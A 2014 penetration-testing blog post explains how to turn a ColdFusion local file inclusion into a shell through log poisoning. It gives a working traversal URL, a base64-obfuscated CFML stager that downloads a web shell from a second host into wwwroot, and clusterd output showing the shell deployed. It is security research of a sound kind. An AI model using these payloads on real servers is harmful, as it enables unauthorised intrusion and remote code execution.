 ```yaml
---
categories:
- coldfusion
- lfi
- clusterd
comments: false
date: "2014-04-02T15:10:04Z"
title: LFI to shell in Coldfusion 6-10
---
```


ColdFusion has [several](http://www.blackhatlibrary.net/Coldfusion_hacking) very popular LFI's that are often used to fetch CF hashes, which can then be passed or cracked/reversed.  A lesser use of this LFI, one that I haven't seen documented as of yet, is actually obtaining a shell.  When you can't crack or pass, what's left?

The less-than-obvious solution is to exploit CFML's parser, which acts much in the same way that PHP does when used in HTML.  You can embed PHP into any HTML page, at any location, because of the way the PHP interpreter searches a document for executable code.  This is the foundational basis of log poisoning.  CFML acts in much the same way, and we can use these LFI's to inject CFML and execute it on the remote system.

Let's begin by first identifying the LFI; I'll be using ColdFusion 8 as example.  CF8's LFI lies in the locale parameter:

```
http://192.168.1.219:8500/CFIDE/administrator/enter.cfm?local=../../../../../../../../ColdFusion8\logs\application.log%00en
```

When exploited, this will dump the contents of `application.log`, a logging file that stores error messages.

{{< figure src="/images/posts/2014/cf_log.jpg" >}}

We can write to this file by triggering an error, such as attempting to access a nonexistent CFML page.  This log also fails to sanitize data, allowing us to inject any sort of characters we want; including CFML code.  

The idea for this is to inject a simple stager payload that will then pull down and store our real payload; in this case, a web shell (something like fuze).  The stager I came up with is as follows:

```
<cfhttp method='get' url='#ToString(ToBinary('aHR0cDovLzE5Mi4xNjguMS45Nzo4MDAwL2NtZC5jZm1s'))#' path='#ExpandPath(ToString(ToBinary('Li4vLi4v')))#' file='cmd.cfml'>
```

The `cfhttp` tag is used to execute an HTTP request for our real payload, the URL of which is base64'd to avoid some encoding issues with forward slashes.  We then expand the local path to `../../` which drops us into `wwwroot`, which is the first directory accessible from the web server. 

Once the stager is injected, we only need to exploit the LFI to retrieve the log file and execute our CFML code:

{{< figure src="/images/posts/2014/cf_log_fetch.jpg" >}}

Which we can then access from the root directory:

{{< figure src="/images/posts/2014/cf_log_exec.jpg" >}}

A quick run of this in clusterd:

```
$ ./clusterd.py -i 192.168.1.219 -a coldfusion -p8500 -v8 --deployer lfi_stager --deploy ./src/lib/resources/cmd.cfml 

        clusterd/0.2.1 - clustered attack toolkit
            [Supporting 5 platforms]

 [2014-04-02 11:28PM] Started at 2014-04-02 11:28PM
 [2014-04-02 11:28PM] Servers' OS hinted at windows
 [2014-04-02 11:28PM] Fingerprinting host '192.168.1.219'
 [2014-04-02 11:28PM] Server hinted at 'coldfusion'
 [2014-04-02 11:28PM] Checking coldfusion version 8.0 ColdFusion Manager...
 [2014-04-02 11:28PM] Matched 1 fingerprints for service coldfusion
 [2014-04-02 11:28PM]   ColdFusion Manager (version 8.0)
 [2014-04-02 11:28PM] Fingerprinting completed.
 [2014-04-02 11:28PM] Injecting stager...
 [2014-04-02 11:28PM] Waiting for remote server to download file [7s]]
 [2014-04-02 11:28PM] cmd.cfml deployed at /cmd.cfml
 [2014-04-02 11:28PM] Finished at 2014-04-02 11:28PM

```

The downside to this method is remnance in a log file, which cannot be purged unless the CF server is shutdown (except in CF10).  It also means that the CFML file, if using the web shell, will be hanging around the filesystem.  An alternative is to inject a web shell that exists on-demand, that is, check if an argument is provided to the LFI and only parse and execute then.

A working deployer for this can be found in the latest release of clusterd (v0.2.1).  It is also worth noting that this method is applicable to other CFML engines; details on that, and a working proof of concept, in the near future.
